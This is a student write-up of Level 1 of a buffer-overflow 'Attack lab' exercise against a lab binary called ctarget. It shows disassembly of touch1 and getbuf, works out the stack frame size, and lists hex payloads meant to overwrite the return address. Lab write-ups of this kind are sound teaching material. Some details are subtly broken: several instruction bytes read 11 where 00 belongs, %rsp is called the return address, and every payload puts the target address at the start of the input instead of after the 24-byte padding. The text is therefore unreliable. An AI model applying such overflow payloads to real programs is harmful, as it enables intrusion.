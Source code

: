 # Attack lab

By Adrian Borup (adbo@itu.dk).

## Part I: Code Injection Attacks

### Level 1

We start by inspecting the assembly to find the address of the `touch1` function:

```asm
$ objdump -D ctarget | grep -A 14 "<touch1>"
0000000000001e47 <touch1>:
    1e47:	f3 0f 1e fa          	endbr64 
    1e4b:	50                   	push   %rax
    1e4c:	58                   	pop    %rax
    1e4d:	48 83 ec 08          	sub    $0x8,%rsp
    1e51:	c7 05 81 55 11 00 01 	movl   $0x1,0x5581(%rip)        # 73dc <vlevel>
    1e58:	11 00 00 
    1e5b:	48 8d 3d a9 24 11 00 	lea    0x24a9(%rip),%rdi        # 430b <_IO_stdin_used+0x30b>
    1e62:	e8 39 f4 ff ff       	callq  12a0 <puts@plt>
    1e67:	bf 01 11 00 00       	mov    $0x1,%edi
    1e6c:	e8 f4 04 11 00       	callq  2365 <validate>
    1e71:	bf 11 00 00 00       	mov    $0x0,%edi
    1e76:	e8 85 f5 ff ff       	callq  1411 <exit@plt>

0000000000001e7b <touch2>:
```

Our goal is now to overwrite the return address after `getbuf` so it points to `0x1e47`. We want to know the size of the stack frame so we can overwrite the return address. Let's check out `getbuf`'s assembly code:

```asm
$ objdump -D ctarget | grep -A 9 -m 1 "<getbuf>"
0000000000001e2d <getbuf>:
    1e2d:       f3 0f 1e fa             endbr64
    1e31:       48 83 ec 18             sub    $0x18,%rsp
    1e35:       48 89 e7                mov    %rsp,%rdi
    1e38:       e8 b5 02 00 00          callq  20f2 <Gets>
    1e3d:       b8 01 00 00 00          mov    $0x1,%eax
    1e42:       48 83 c4 18             add    $0x18,%rsp
    1e46:       c3                      retq

0000000000001e47 <touch1>:
```

At instruction `0x1e31`, we can see an integer constant `$0x18`, which is 24 in decimal. The return address, `%rsp`, is decremented with 24 bytes - therefore our stack frame must be 24 bytes in size. We can confirm this by seeing if the program starts to misbehave between 23 and 24 bytes of input:

```sh
$ echo "00000000000000000000000" | ./ctarget
Cookie: 0x3c1eff45
Type string:No exploit.  Getbuf returned 0x1
Normal return
$ echo "000000000000000000000000" | ./ctarget
Cookie: 0x3c1eff45
Type string:Ouch!: You caused a segmentation fault!
Better luck next time
FAILED
```

Yup! Boom.

The segfault happens when we feed 24 bytes. Therefore, let's try to make the 24th byte `0x1e47` (the address of `touch1`):

```sh
$ echo "47 1e 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00" | ./hex2raw | ./ctarget
$ echo "47 1e 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00" | ./hex2raw | ./ctarget
$ echo "47 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00" | ./hex2raw | ./ctarget
```
